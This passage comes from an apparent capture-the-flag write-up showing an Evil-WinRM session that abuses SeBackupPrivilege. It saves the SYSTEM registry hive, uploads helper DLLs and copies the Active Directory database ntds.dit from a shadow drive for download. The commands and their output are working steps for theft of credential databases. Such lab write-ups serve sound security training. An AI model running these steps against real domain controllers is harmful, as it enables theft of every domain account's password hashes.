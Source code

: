 ```shell
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/5/2020  3:48 PM       18874368 ntds.dit
```
Bingo ! Now we can now download `ntds.dit` using `download` command. For generating SYSTEM.hive we'll use the same command `reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\SYSTEM` used in Method #1

### Copy-FileSeBackupPrivilege  

An alternate way to copy files from the `shadow drive Z:\` is by uploading `SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll` from [**SeBackupPrivilege**](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug) repo and importing them to our session.

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls


    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        10/5/2020   3:48 PM                new_ntds
-a----        10/5/2020   5:14 PM          12288 SeBackupPrivilegeCmdLets.dll
-a----        10/5/2020   5:14 PM          16384 SeBackupPrivilegeUtils.dll
```
#### Importing dll's:

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
Now we can use `Copy-FileSeBackupPrivilege` to copy files from our Shadow drive to the desired directory:

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege Z:\Windows\NTDS\ntds.dit C:\Users\svc_backup\Documents\ntds.dit
*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls


    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        10/5/2020   3:38 PM                new_ntds
-a----        10/5/2020   5:17 PM       18874368 ntds.dit
-a----        10/5/2020   5:14 PM          12288 SeBackupPrivilegeCmdLets.dll
-a----        10/5/2020   5:14 PM          16384 SeBackupPrivilegeUtils.dll
-a----        10/5/2020   4:29 PM            186 shadowscript.txt
-a----        10/5/2020   4:36 PM       17682432 SYSTEM
```
